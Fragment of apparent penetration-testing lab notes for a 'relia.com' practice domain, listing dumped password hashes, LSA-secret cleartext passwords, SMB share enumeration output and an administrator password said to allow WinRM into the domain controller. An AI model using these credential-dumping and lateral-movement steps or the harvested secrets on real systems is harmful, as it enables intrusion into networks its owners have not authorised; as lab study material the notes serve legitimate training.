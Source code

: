 andrea:PasswordPassword_6:ce3f12443651168b3793f5fbcccff9db

Administrator::8b4547a5116dd13e6e206d1286a06b28


```sh
Secret  : _SC_SNMPTRAP / service 'SNMPTRAP' with username : RELIA\andrea
cur/text: PasswordPassword_6
old/text: jVmhsH4sbuVwP$2
```


On 172.16.x.21 as andrea:

```sh
SMB         172.16.130.21   445    FILES            [+] relia.com\andrea:PasswordPassword_6 
SMB         172.16.130.21   445    FILES            [+] Enumerated shares
SMB         172.16.130.21   445    FILES            Share           Permissions     Remark
SMB         172.16.130.21   445    FILES            -----           -----------     ------
SMB         172.16.130.21   445    FILES            ADMIN$                          Remote Admin
SMB         172.16.130.21   445    FILES            apps            READ            
SMB         172.16.130.21   445    FILES            C$                              Default share
SMB         172.16.130.21   445    FILES            IPC$            READ            Remote IPC
SMB         172.16.130.21   445    FILES            monitoring      READ            
SMB         172.16.130.21   445    FILES            scripts         READ 
```


We will take a look at scripts.help

Possible:
RELIA\Administrator:vau!XCKjNQBv2$ - We can WinRM in the DC with these credentials.
